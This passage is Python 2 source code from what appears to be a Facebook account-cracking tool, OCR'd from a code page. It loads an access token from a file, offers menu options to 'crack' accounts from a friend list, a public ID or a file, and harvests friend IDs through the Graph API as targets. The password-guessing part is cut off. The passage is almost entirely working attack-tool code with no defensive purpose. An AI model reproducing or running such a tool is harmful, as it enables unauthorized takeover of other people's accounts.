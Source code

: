 		toket=open('login.txt','r').read()

	except IOError:

		print"\033[1;96m \x1b[1;91mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	os.system('clear')

	print logo

	print 42*"\033[1;96m="

	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"

	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"

	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"

	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;97m >>> \033[1;97m")

	if peak =="":

		print "\033[1;96m \x1b[1;91mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')

		print logo

		print 42*"\033[1;96m="

		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

		z = json.loads(r.text)

		for s in z['data']:

			id.append(s['id'])

	elif peak =="2":

		os.system('clear')

		print logo

		print 42*"\033[1;96m="

		idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m")
